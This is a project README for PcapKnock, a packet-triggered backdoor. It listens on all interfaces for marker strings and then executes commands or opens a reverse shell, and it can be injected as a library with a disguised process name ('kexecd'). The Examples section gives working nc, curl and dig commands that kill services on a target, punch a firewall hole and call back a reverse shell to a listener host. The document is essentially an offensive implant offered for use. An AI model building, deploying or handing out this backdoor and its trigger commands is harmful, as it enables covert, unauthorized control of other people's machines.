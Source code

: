PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable binary.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build the
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22 #Port doesn't matter
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```

Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `any`      | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
 It is unlikely the below will need to be changed | |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT       | _unset_    | If defined, outputs error messages to stdout

Only the first four will likely need to be changed in most cases.
